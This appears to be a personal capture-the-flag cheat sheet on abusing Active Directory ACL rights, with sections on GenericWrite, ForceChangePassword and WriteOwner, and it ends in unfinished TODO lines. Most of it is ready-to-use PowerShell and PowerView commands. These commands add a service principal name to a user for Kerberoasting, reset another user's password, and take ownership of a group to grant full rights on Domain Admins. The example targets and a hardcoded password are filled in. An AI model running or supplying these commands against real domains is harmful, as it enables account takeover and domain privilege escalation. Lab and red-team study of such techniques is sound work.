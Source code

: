 ## Notes On ACL's

### GenericWrite 

Tie an SPN to the user whom you have *GenericWrite* on, and invoke a *Kerberoast* to get a crackable hash

```powershell
# setspn should be available on the DC

setspn -a MSSQLSvc/<DOMAIN>:1433 <DOMAIN>\<USER

# Example

setspn -a MSSQLSvc/megacorp.local:1433 megacorp.local\jorden
```

Alternatively, import *PowerView* and use it to tie the SPN.

```powershell
Set-DomainObject -Identity <USER> -SET @{serviceprincipalname='nonexistent/tobeatelite'}

# Example

Set-DomainObject -Identity maria -SET @{serviceprincipalname='nonexistent/tobeatelite'}
```

Check to make sure that the SPN was created successfully. You should see the new SPN and the username in the output.

```powershell
Get-NetUser -SPN | select serviceprincipalname
```

If successful: Kerberoast.

### ForceChangePassword

ez pwn

```powershell
cd /temp
upload /home/tobeatelite/ctf/tools/PowerView.ps1
. .\PowerView.ps1
$newpass = ConvertTo-SecureString 'Tobeatelite%' -AsPlainText -Force
Set-DomainUserPassword -Identity <USER> -AccountPassword $newpass
```

### WriteOwner

this is on a group. add yourself to that group and get thier privs

```powershell
cd /temp
upload /home/tobeatelite/ctf/tools/PowerView.ps1
. .\PowerView.ps1

Set-DomainObjectOwner -Identity '<GROUP>' -OwnerIdentity '<USER_WITH_PRIV>'
Add-DomainObjectAcl -TargetIdentity "Domain Admins" -PrincipalIdentity maria -Rights All

TODO
```
TODO

